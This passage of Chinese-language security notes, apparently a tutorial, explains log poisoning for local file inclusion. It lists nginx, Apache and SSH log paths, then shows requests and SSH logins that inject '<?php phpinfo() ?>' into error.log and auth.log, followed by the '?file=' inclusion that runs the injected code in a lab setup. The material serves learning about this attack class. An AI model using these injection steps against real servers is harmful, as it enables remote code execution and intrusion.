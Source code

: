 **nginx**
 - `/var/log/nginx`
 - 与安装nginx的路径相对，例如安装在`/usr/local/nginx`，那么日志在`/usr/local/nginx/logs`
 - 文件名为`error.log`(错误日志)和`access.log`(访问日志)

**SSH log**
 - `/etc/log`
 - `/var/log`
 - 文件名为`auth.log`


### apache日志实例
利用apache在页面报错时，会将报错信息记录到error.log文件中。

```
请求包内容
GET /<?php phpinfo() ?> HTTP/1.1
Host: localhost:8088

日志记录
[Sun Feb 11 11:42:26.382912 2018] [core:error] [pid 9988:tid 4140] (20024)The given path is misformatted or contained invalid characters: [client 127.0.0.1:11140] AH00127: Cannot map GET /%3C?php%20phpinfo()%20?%3E HTTP/1.1 to file
[Sun Feb 11 11:43:07.778390 2018] [core:error] [pid 9988:tid 4140] (20024)The given path is misformatted or contained invalid characters: [client 127.0.0.1:11149] AH00127: Cannot map GET /<?php phpinfo() ?> HTTP/1.1 to file

第一条日志是直接通过浏览器发送的，所以路径经过了URL编码，记录的也是URL编码。即使被包含了也无效
第二条日志是用Burp发送

包含文件(我用phpstudy所以路径是这样的)
?file=H:\phpStudy\PHPTutorial\Apache\logs\error.log

界面出现日志信息，和phpinfo()被执行。
```

### SSH log实例
利用ssh到系统上时会记录日志到 auth.log 文件中。

```
X-Shell命令
[c:\~]$ ssh '<?php phpinfo() ?>'@192.168.136.153

日志记录
Feb 11 16:08:53 byxs-virtual-machine sshd[5985]: Failed password for invalid user '<?php phpinfo() ?>' from 192.168.136.1 port 15461 ssh2

包含文件(ubuntu16.04)
?file=/var/log/auth.log

界面出现日志信息，和phpinfo()被执行。
```

<br>
